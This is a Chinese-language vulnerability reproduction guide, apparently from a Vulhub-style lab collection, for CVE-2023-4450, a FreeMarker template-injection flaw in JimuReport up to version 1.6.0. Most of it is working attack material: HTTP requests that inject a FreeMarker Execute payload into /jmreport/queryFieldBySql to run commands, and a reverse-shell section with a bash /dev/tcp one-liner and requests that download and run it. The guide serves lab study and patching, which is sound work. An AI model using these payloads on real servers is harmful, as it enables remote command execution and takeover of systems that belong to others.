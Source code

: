 # JimuReport FreeMarker 服务端模板注入命令执行 CVE-2023-4450

## 漏洞描述

积木报表（JimuReport）是一个开源的数据可视化报表平台。在其1.6.0版本及以前，存在一个FreeMarker服务端模板注入（SSTI）漏洞，攻击者利用该漏洞可在服务器中执行任意命令。

参考链接：

- [https://github.com/advisories/GHSA-j8h5-8rrr-m6j9](https://github.com/advisories/GHSA-j8h5-8rrr-m6j9)
- [https://whoopsunix.com/docs/java/named%20module/](https://whoopsunix.com/docs/java/named%20module/)

## 漏洞影响

```
JimuReport version <= 1.6.0
```

## 环境搭建

Vulhub 执行如下命令启动一个JimuReport 1.6.0演示服务器：

```
docker compose up -d
```

等待一段时间后，访问`http://your-ip:8085`即可看到报表首页。

![](images/JimuReport%20FreeMarker%20服务端模板注入命令执行%20CVE-2023-4450/image-20240506112810381.png)

## 漏洞复现

发送如下请求，即可在服务端注入FreeMarker模板`<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("id")}`：

```
POST /jmreport/queryFieldBySql HTTP/1.1
Host: localhost:8085
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 100

{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ex(\"id\")}'" }
```

可见，`id`命令已经成功被执行：

![](images/JimuReport%20FreeMarker%20服务端模板注入命令执行%20CVE-2023-4450/image-20240506114636787.png)

### 反弹shell

创建一个 `bs.sh` 并托管在 vps，内容如下：

```
/bin/bash -i >& /dev/tcp/<your-vps-ip>/8888 0>&1
```

发包，下载 `bs.sh` 并执行：

```
POST /jmreport/queryFieldBySql HTTP/1.1
Host: your-ip:8085

{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ex(\"wget 127.0.0.1/bs.sh\")}'" }
```

```
POST /jmreport/queryFieldBySql HTTP/1.1
Host: your-ip:8085

{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ex(\"bash bs.sh\")}'" }
```

vps 监听 8888 端口：

![](images/JimuReport%20FreeMarker%20服务端模板注入命令执行%20CVE-2023-4450/image-20240506115543868.png)

## 漏洞修复

升级到最新版本： http://jimureport.com/doc/log
